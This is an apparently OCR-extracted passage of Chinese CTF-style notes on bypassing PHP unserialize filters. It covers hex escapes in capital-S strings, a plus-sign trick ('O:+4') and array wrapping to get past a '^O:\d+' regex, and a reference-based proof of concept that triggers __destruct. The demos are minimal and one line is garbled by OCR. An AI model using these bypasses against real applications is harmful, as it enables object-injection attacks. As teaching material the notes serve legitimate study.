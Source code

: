 ```php
// 做处理后 \75是u的16进制
$a = 'O:4:"test":1:{S:8:"\\75sername";s:5:"admin";}';
$a = check($a);
unserialize($a);
```

### 绕过部分正则

`preg_match('/^O:\d+/')`匹配序列化字符串是否是对象字符串开头

利用加号绕过（注意在url里传参时+要编码为%2B）
serialize(array(a ) ) ; / / a));//a));//a为要反序列化的对象(序列化结果开头是a，不影响作为数组元素的$a的析构)

------------------------------------------------
```php
<?php
class test{
    public $a;
    public function __construct(){
        $this->a = 'abc';
    }
    public function  __destruct(){
        echo $this->a.PHP_EOL;
    }
}

function match($data){
    if (preg_match('/^O:\d+/',$data)){
        die('you lose!');
    }else{
        return $data;
    }
}
$a = 'O:4:"test":1:{s:1:"a";s:3:"abc";}';
// +号绕过
$b = str_replace('O:4','O:+4', $a);
unserialize(match($b));
// serialize(array($a));
unserialize('a:1:{i:0;O:4:"test":1:{s:1:"a";s:3:"abc";}}');

```

利用 poc

```php
<?php
class test{
    public $a;
    public $b;
    public function __construct(){
        $this->a = 'abc';
        $this->b= &$this->a;
    }
    public function  __destruct(){

        if($this->a===$this->b){
            echo 666;
        }
    }
}
$a = serialize(new test());

```

